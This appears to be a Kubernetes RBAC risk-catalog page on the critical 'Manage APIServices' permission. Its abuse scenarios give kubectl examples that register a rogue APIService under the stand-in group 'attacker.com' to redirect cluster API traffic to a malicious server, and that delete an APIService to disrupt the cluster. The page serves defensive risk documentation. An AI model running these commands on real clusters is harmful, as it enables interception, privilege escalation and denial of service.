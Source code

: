 ```yaml
---
id: 1046
title: "Manage APIServices"
description: "Grants control over APIServices, which register aggregated API servers. This is highly critical as an attacker can redirect API requests to a malicious server, intercept traffic, escalate privileges, cause denial of service, or exfiltrate information."
category: Tampering
risk_level: RiskLevelCritical
date: ""
---
```


## Overview

| Field         | Value                                                                                                                                                            |
| ------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ID            | 1046                                                                                                                                                             |
| Name          | Manage APIServices                                                                                                                                               |
| Risk Category | Tampering                                                                                                                                                        |
| Risk Level    | {{< risk Critical >}}                                                                                                                                            |
| Role Type     | ClusterRole                                                                                                                                                      |
| API Groups    | apiregistration.k8s.io                                                                                                                                           |
| Resources     | apiservices                                                                                                                                                      |
| Verbs         | create, update, patch, delete                                                                                                                                    |
| Tags          | {{< tag "APIServiceManipulation" >}} {{< tag "DenialOfService" >}} {{< tag "InformationDisclosure" >}} {{< tag "PrivilegeEscalation" >}} {{< tag "Tampering" >}} |

## Description

Grants control over APIServices, which register aggregated API servers. This is highly critical as an attacker can redirect API requests to a malicious server, intercept traffic, escalate privileges, cause denial of service, or exfiltrate information.

## Abuse Scenarios

1. Create a new APIService to redirect API calls to a malicious server.

```bash
kubectl create -f - <<EOF
apiVersion: apiregistration.k8s.io/v1
kind: APIService
metadata:
  name: v1alpha1.attacker.com
spec:
  service:
    name: <malicious-service-name>
    namespace: <malicious-service-namespace>
  group: attacker.com
  version: v1alpha1
  caBundle: <base64-encoded-ca-cert> # CA for the malicious service
  groupPriorityMinimum: 2000 # Higher than core APIs
  versionPriority: 200
EOF
# Example: kubectl create -f - <<EOF ... EOF

```

2. Delete an existing APIService, disrupting aggregated API functionality.

```bash
kubectl delete apiservice <apiservice-name>
# Example: kubectl delete apiservice v1beta1.metrics.k8s.io

```
